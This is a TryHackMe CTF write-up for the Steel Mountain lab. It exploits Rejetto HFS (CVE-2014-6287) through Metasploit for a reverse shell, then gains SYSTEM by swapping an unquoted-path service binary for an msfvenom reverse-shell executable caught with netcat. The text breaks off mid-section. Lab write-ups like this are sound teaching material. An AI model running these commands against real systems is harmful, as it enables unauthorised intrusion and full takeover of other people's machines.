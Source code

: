 # Steel mountain

This is a Write up for the Steel Mountain machine form TryHackMe you can find the link and details about the room in the [README.md](https://github.com/mil0666/tryhackme-writeups/blob/main/README.md)
**FIY**: words that are marked *LIKE THIS* are commands that you can use in you terminal



First what I like to do with any machine turn on nmap and gobuster and let them run in the background I have my nappy.sh and
gobuddy-dir.sh "scripts"

nappy.sh - *nmap -sS -sV -A -O $IP*

gobuddy-dir.sh - *gobuster dir -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt*

I usually use seclists for this you can find them here - https://github.com/danielmiessler/SecLists

### INITIAL ACCESS

While our scans are going in the background we can take a look at our target through the browser


I tried to zoom in here to see if his name is written on the shirt but no luck,
My next try was going to View source for this page and there it was /img/BillHarper.png
So there we have our first answer.

1. Who is the employee of the month?

   **bill harper**


 2. Scan the machine with nmap. What is the other port running a web server on?
   Good thing we got the nmap scan already running so we know the answer to this is

    **8080**

![image](https://user-images.githubusercontent.com/81188817/112178397-fc3e7000-8bf9-11eb-8fa1-6a2df846e24d.png)


3. Take a look at the other web server. What file server is running?

    So in the screen shot above we can see it is a HttpFileServer 2.3
    but that is only the part of the server. If you don't see this HttpFileServer 2.3. hyperlinked below the Actions the first time you go to the link, feel free to click around     a bit or refresh the page and it will appear.
    When you actually click on it it will take you this link - http://www.rejetto.com/hfs/

    So with this we now have the whole answer:

    **Rejetto http file server**

4. What is the CVE number to exploit this file server?

    We can either use google (exploit-db) or searchsploit to find exploits for this HFS:
    You can just google CVE rejetto http file server and the firs exploit-db link I got is this:

    https://www.exploit-db.com/exploits/39161

    So the answer is:  **2014-6287**

The command for searchsploit is:
*searchsploit rejetto http file server*

Here we can see searchsploit results and we can see the **39161.py** that we will need for this machine a bit later, so you can just copy that python script to your working directory so you don't have to look for it later.

![image](https://user-images.githubusercontent.com/81188817/112178754-517a8180-8bfa-11eb-9385-edb25129e52f.png)


 *cp /usr/share/exploitdb/exploits/windows/remote/39161.py Desktop/thm/steelmountain/* - this will copy the python script.

 5. Use Metasploit to get an initial shell. What is the user flag?

     Okay we will first start metasploit by running msfconsole in our terminal
     There in the msfconsole you will use *search* command is msfconsole to find the exploit that we need:
     *search rejetto http file server* - we only got one exploit so we will go and use that one with the command *use 0*
     out default payload is windows/meterpreter/reverse_tcp which is what we need so we'll leave it as is

 ![image](https://user-images.githubusercontent.com/81188817/112179056-9f8f8500-8bfa-11eb-9691-d392c64a7f41.png)


 Then you'll type in *options* to see what we have to configure in order for this payload to work:

 ![image](https://user-images.githubusercontent.com/81188817/112179080-a61dfc80-8bfa-11eb-8ce2-2c91ff2648bf.png)

 ##### What we need to configure:

RHOST & RPORT  - These will be our target machine IP address and the port 8080

SRVHOST & SRVPORT - these will be your attacking machine IP address (usually tun0 interface, you can find this via *ip addr* command), and for the port you can put any port      that isn't already busy, but I would recommend a higher number port e.g. 4848

 Also you have to configure the two for the payload as well:
 LHOST & LPORT, there I configured the same IP address (our attacking machine, tun0) but a different port then what we configured for the the **SRVPORT**

 We use the prefix set e.g. *set LPORT 4848* for all the options.

 After we set up everything you can just type *run* or *exploit* and you should get a meterpreter shell.
 There we can use the *migrate* command to migrate to a more stable process so our session doesn't break in the middle of our priv esc :D

 ![image](https://user-images.githubusercontent.com/81188817/112179284-d8c7f500-8bfa-11eb-9fa3-08e537ff896c.png)

 To see the processes you can type *ps* and migrate using the process PID number, here I migrated to the explorer.exe process using its PID.

  After this we can go and fetch the user flag, first we have to locate it the logical path is to go to the Users desktop and search there:

![image](https://user-images.githubusercontent.com/81188817/112179337-e54c4d80-8bfa-11eb-8fa0-02937ce812b8.png)

 ### PRIVELEGDE ESCALATION WITH METASPLOIT:

First what we need to do is download the **PowerUp.ps1** script to our working directory on our attacking machine since this is what we will be using for our priv ecs on the    target machine.

 You can find the script here - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

 When you use the *wget* command be sure that you click RAW for the script and then *wget* it like that to your machine
 The full command is:

  *wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1*

  Then on our meterpreter shell we use upload to get it onto the windows target machine so:
  *upload PowerUp.ps1*  (if this doesn't work use the full path to the file e.g. /home/user/Desktop/PowerUp.ps1)

  So now we have the script on Bills desktop.

  In order for us to use this powershell script we have to first prepare so we will type *load powershell* to load the powershell extension and than *powershell_shell* to get our shell
  so we can actually use the script * . .\PowerUp.ps1 * and after that Invoke-AllChecks
 It should look like this:

 ![image](https://user-images.githubusercontent.com/81188817/112180478-e16cfb00-8bfb-11eb-8f5f-8212bdff6a5d.png)


 Pay close attention to the **CanRestart** option that is set to true. What is the name of the name of the service which shows up as an _unquoted service path_ vulnerability?

 So basically the first service that appears: **AdvancedSystemCareService9** is the one that has CanRestart marked True and it is located under C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe

 We have the explanation in the room why the CanRestart is important:

 The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

 Use msfvenom to generate a reverse shell as an Windows executable. The command I used was:

  *msfvenom -p windows/shell_reverse_tcp LHOST=10.14.7.187 LPORT=5556 -f exe -o ASCService.exe*

  -p is for payload and here we specify the payload that we wanna use

  LHOST and LPORT is the IP of your attacking machine and the port of your choosing

  -f is type of file, here we specified exe

  -o the output file, I named it the same as the exe of the service we want to copy over.

  So we'll go to our folder on the target machine where the exe file of the service is stored

  *cd C:/"Program Files (x86)"/IObit/"Advanced SystemCare"/*

  We have to put quotations because of the spaces, we can't cd without them into these folders.

  When we're there we will stop the ASCService.exe, but first type in *shell* to get a shell where we can actually stop the service since I haven't found a way to do this from     meterpreter:

  After you get the shell type:  *net stop AdvancedSystemCareService9*

 ![image](https://user-images.githubusercontent.com/81188817/112180605-fea1c980-8bfb-11eb-9c1e-7146c7afa6e2.png)


  Then we leave this shell so we can *upload* our payload through meterpreter and get back the shell. You do this with CTRL+C or *exit*
  And then upload the payload the same way we did with the PowerUp.ps1 script:

  ![image](https://user-images.githubusercontent.com/81188817/112180784-25600000-8bfc-11eb-9fb6-3039d8c46968.png)


  Before we start the service again make sure you have a nc listener on your attacking machine with the port you defined  while making the payload in msfvenom (LPORT option):
  In my case it's:

  *nc -lvnp 5556*

  And then go to the targer machine go ahead and type *shell* first and then start the service with

  *net start AdvancedSystemCareService9*

  And voilà you will get a reverse shell.

  When you type *whoami* you will se you are **nt authority\system** which is root for windows.

  From there you can go ahead to the Administrators desktop and look for the flag.

![image](https://user-images.githubusercontent.com/81188817/112180844-33ae1c00-8bfc-11eb-8be6-b8b8a18ab7f2.png)

### PRIVELEGDE ESCALATION WITHOUT METASPLOIT:

Remember the python script that I said you should save to your working directory cause we're gonna use it later, well later is now :D 

If you didn't save it then no big deal you can just go to you directory and type:
*cp /usr/share/exploitdb/exploits/windows/remote/39161.py* - this will copy the script to you current directory sdsdsss
s
